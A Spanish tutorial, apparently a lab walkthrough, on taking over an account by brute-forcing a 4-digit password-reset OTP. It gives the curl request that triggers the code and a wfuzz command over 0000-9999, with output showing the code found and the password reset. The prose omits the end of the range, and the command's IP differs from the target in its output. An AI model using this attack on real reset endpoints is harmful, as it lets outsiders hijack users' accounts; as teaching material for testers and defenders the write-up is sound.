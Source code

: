 ![portada_reset_password](img/reset_password_portada.png)

# Atacando a los sistemas de restablecimiento de contraseñas
Sabemos que las contraseñas son necesarias para la autenticación en diferentes tipos de sistemas. Las empresas, cada vez más por suerte, cuidan que sus políticas de contraseñas sean lo suficientemente robustas para forzar a sus empleados a que sigan las mejores prácticas e intentar impedir que un atacante pueda adivinarlas por fuerza bruta.

Sin embargo, otro vector de ataque son los mecanismos de auto restablecimiento de contraseñas que las empresas ofrecen a sus empleados, por ejemplo, ante un olvido de la misma. En este artículo, veremos cómo aprovecharnos de un mecanismo de restablecimiento de contraseña que usa OTP.

# OTP
Primero, explicaremos qué es OTP. OTP, del inglés One-Time Password, es una contraseña de un solo uso y, por tanto, pierde su validez después de su uso. Habitualmente, es usada como parte de de una autenticación de doble factor o como parte de los mecanismos de restablecimiento de contraseñas. Esta contraseña suele enviarse por correo electrónico o por SMS para que pueda ser introducida por el usuario, aunque también podría ser generada/visualizada mediante aplicaciones como DUO o Microsoft Authenticator.

A continuación, simularemos un ataque a un mecanismo OTP que envía la clave mediante correo electrónico. Partiremos del correo electrónico obtenido en fases previas de enumeración: MasonJenkins@ymail.com

Según podemos ver en la imagen, tenemos acceso a un punto final de una API que permite restablecer la contraseña de un usuario, añadiendo como parámetros el correo electrónico asociado, la clave OTP y la nueva clave final. En la descripción del propio punto final, vemos que la clave OTP supuestamente tiene una duración máxima de 5 minutos. Dado que no tenemos el control de la cuenta de correo electrónico del usuario, intentaremos un ataque por fuerza bruta al mecanismo OTP que deberá completarse antes de esos 5 minutos.

![api_otp](img/reset_password_2.png)

Tenemos a nuestra disposición otro método de la API, que permite el envío de la clave OTP a una dirección de correo electrónico asociada a una cuenta de usuario.

![api_otp](img/reset_password_1.png)

Realizamos la petición de restablecimiento de contraseña, para que se genere la clave OTP.
```bash
# curl -X 'POST' 'http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets/email-otps' -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"Email": "MasonJenkins@ymail.com"}'
{"SuccessStatus":true}
```

Es habitual encontrar mecanismos OTP que devuelven contraseñas de entre 4 a 6 carácteres, todos numéricos. A continuzación, realizamos nuestro ataque de fuerza bruta con wfuzz, con un rango desde el 0001 hasta el . Con el parámetro "--hh" ocultamos las peticiones fallidas, que devuelven un total de 23 carácteres ("SuccessStatus": false). 
```bash
#wfuzz -c --hh 23 --hc 404 -u http://94.237.59.180:50815/api/v1/authentication/customers/passwords/resets -z range,0000-9999 -H "Content-Type: application/json" -d '{"Email": "MasonJenkins@ymail.com", "NewPassword": "Test1234", "OTP":"FUZZ"}'

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets
Total requests: 9999

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================
000007435:   200        0 L      1 W        22 Ch       "7435"

                                            
Total time: 51.76655
Processed Requests: 9999
Filtered Requests: 9998
Requests/sec.: 193.1555

```
Como vemos en el resultado de la ejecución de wfuzz, conseguimos en menos de un minuto el código OTP y, por tanto, cambiar la contraseña al usuario.







